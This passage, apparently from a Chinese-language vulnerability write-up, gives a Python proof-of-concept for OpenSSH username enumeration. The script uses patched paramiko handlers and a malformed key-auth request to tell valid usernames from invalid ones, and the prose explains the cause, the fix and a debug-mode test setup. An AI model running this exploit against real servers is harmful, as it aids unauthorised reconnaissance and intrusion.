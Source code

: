 ```python


def userauth_failure(*args, **kwargs):
    raise InvalidUsername()


paramiko.auth_handler.AuthHandler._handler_table.update({
    paramiko.common.MSG_SERVICE_ACCEPT: service_accept,
    paramiko.common.MSG_USERAUTH_FAILURE: userauth_failure
})

logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()
arg_parser.add_argument('hostname', type=str)
arg_parser.add_argument('--port', type=int, default=22)
arg_parser.add_argument('username', type=str)
args = arg_parser.parse_args()

sock = socket.socket()
try:
    sock.connect((args.hostname, args.port))
except socket.error:
    print '[-] Failed to connect'
    sys.exit(1)

transport = paramiko.transport.Transport(sock)
try:
    transport.start_client()
except paramiko.ssh_exception.SSHException:
    print '[-] Failed to negotiate SSH transport'
    sys.exit(2)

try:
    transport.auth_publickey(args.username, paramiko.RSAKey.generate(2048))
except InvalidUsername:
    print '[*] Invalid username'
    sys.exit(3)
except paramiko.ssh_exception.AuthenticationException:
    print '[+] Valid username'
```

这个漏洞之所以存在，是因为服务器在对消息完整解析之前，用户查询了不存在的用户名。想要修复该漏洞也很简单，按攻击逻辑反着来就行了：首先对消息进行完整解析，然后再建立通信连接。

测试漏洞利用PoC的一种方法就是在调试模式下开启OpenSSH服务器：

![](images/15891998654282.png)


然后用已存在的有效用户名运行PoC脚本：

![](images/15891998732008.png)

